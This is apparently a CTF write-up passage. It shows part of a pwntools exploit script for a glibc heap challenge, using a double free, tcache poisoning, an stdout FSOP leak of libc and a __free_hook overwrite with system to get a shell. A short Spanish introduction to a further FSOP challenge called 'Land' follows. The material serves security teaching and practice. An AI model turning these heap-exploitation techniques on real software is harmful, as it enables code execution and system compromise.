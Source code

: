 ```python
victim = add(0x98, p64(0)*3 +p64(0x81)+p16(0xa6a0))
#delete victim again after editing the libc address, this time to get a pointer on the heap
delete(victim) 
# we repeat this twice so the address will be the same, so we can have a fix value to only modify one nibble
#editor
#deletc c again to edit 
delete(c)
c = add(0xb8, p64(0)*19 +p64(0xa1)+p64(0)+p16(0)) 
#we can delete the victim again to have a double free scenario again
delete(victim)
#add the vitim modifying the last nibble
add(0x98, p8(0xc0))
#add anotehr one to make the next one a chunk from the stdout
add(0x98, p64(0xcafebabe))
# request a chunk from the stdout
add(0x98, p64(0xdeadbeef))
# request a chunk from the stdout
## manual call to display stdout to avoid buffering issues with wrapper function
r.sendline(b"1")
r.sendlineafter(b"size :", f"{0x98}".encode())
r.sendafter(b"data :", p64(0xfbad1800)+p64(0)+p64(0)+b"dpladpla"+p16(0))
#bruteforce stuff
r.recvuntil(b"dpladpla")
leak = u64(r.recvline()[8:14].ljust(8, b"\x00"))
log.info(f"leak = {hex(leak)}")
#
##with the leak now we can calculate the base to libc address
libc.address = leak-0x1ed723
log.info(f"libc = {hex(libc.address)}")
## delete the victim again and the editor so we can edit again
delete(c)
delete(victim)
## we edit our victim chunk to point to the free hook
c = add(0xb8, p64(0)*19 +p64(0xa1)+p64(libc.sym.__free_hook) )
##requesting a chunk to write the free hook in the tcache 
add(0x98, p64(0xdeadbeef))
## writing the system address to the free hook
victim = add(0x98, p64(libc.sym.system))
#
##free the guard chunk with the /bin/sh string taht will be pass as argument to the hook
delete(guard)
#========= interactive ====================
r.interactive()
```
# Land

Land es un desafío cradp para explotar usando FSOP en glibc 2.31 (para que no sea tan difícil uwu).

El binario es un binario que escribe a un file stream y luego flushea el buffer, simulando una operación de FSOP, con esto podemos controlar el "flush" sin dificultad y sobreescribir el puntero ya que el binario permite sobreescribir el stream.
